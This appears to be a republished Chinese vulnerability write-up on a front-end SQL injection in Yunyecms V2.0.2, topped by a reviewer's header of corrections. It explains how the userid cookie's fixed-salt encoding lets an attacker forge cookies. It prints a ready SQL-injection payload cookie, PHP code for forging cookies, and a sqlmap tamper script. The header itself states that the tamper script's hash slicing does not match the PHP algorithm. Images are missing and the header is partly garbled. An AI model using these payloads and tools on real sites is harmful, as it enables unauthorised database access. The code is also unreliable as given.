


## 核对与使用边界

- 明确更正：PHP `substr(md5,8,18)` 从偏移8取18个字符；Python `[8:18]` 只取10个，所贴 tamper 与目标算法不一致。保留坏代码，不补全可用编码器。
- 所谓加密是固定前后缀加 Base64；decode 未校验盐只裁长度，不是保密性或身份验证。Python 2/3 字符串/字节差异、普通 Base64 doctest 与定制格式不一致也需核；入口掩码和截图不足以证明远程完整链。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：member/customformroute anduseridcookie; publicfixedsaltencoding; sessionguardsunknown

- **凭据与会话边界（1）**：PHP substr(md5,8,18)取18位，Python\[8:18\]只10位，tamper与目标算法不一致会生成错误cookie。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **事实待核（2）**：Python2字符串/hashlib/base64用法未标运行版本，Python3需bytes转换；doctest仅普通Base64不符自定义算法。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：称加密实际固定前后缀+Base64编码且decode不验证盐，只裁长度。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：入口文件me***被掩码、完整请求缺失；大部分图片错用另一前台/后台条目目录需核内容。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（5）**：同638不同cookie入口，保留家族关系不去重，缺修复来源。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Yunyecms V2.0.2 前台注入漏洞（二）

一、漏洞简介
------------

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

二、漏洞影响
------------

yunyecms 2.0.2

三、复现过程
------------

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

/media/rId24.png)

经过了加密处理，根据解密算法**yunyecms\_strdecode**可以在corefun.php找到对应的加解密算法

/media/rId25.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

/media/rId26.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

/media/rId27.png)

    YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==

payload生成代码front-test.php为：

    <?php
    function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
    }
    function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        $retstr=base64_decode($string);
        $SHA1salt=substr(sha1($salt),0,35);
        $md5salt=substr(md5($salt),8,18);
        $retstr=substr($retstr,strlen($md5salt));
        $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
        return base64_decode($retstr);
    }
    if ($_GET['cookie']) {
        $string=$_GET['cookie'];
        $userid=yunyecms_strdecode($string);
        echo $userid;
    }
    if($_GET['userid']){
        $string=$_GET['userid'];
        $cookie=yunyecms_strencode($string);
        echo $cookie;
    }

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

/media/rId28.png)

跟入pagelist函数，将\$where拼接到了sql查询语句中\$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

/media/rId29.png)

详细查看下该函数，直接进行了sql查询。

/media/rId30.png)

附上截

/media/rId31.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

/media/rId32.png)

对应tamper的的脚本为

    yunyecms_front_sqli_tamp.py
    #!/usr/bin/env python

    """
    Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
    See the file 'LICENSE' for copying permission
    """

    import base64
    import hashlib
    from lib.core.enums import PRIORITY
    from lib.core.settings import UNICODE_ENCODING

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def md5(data):
        hash_md5 = hashlib.md5(data)
        md5data=hash_md5.hexdigest()[8:18]
        return md5data
    def sha1(data):
        string_sha1=hashlib.sha1(data).hexdigest()[0:35]
        return string_sha1

    def yunyecms_strencode(string):
        salt='~^y#u%n$y^e*c%m^s^~'
        return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
    def tamper(payload, **kwargs):
        """
        Base64-encodes all characters in a given payload

        >>> tamper("1' AND SLEEP(5)#")
        'MScgQU5EIFNMRUVQKDUpIw=='
        """

        return yunyecms_strencode(payload) if payload else payload
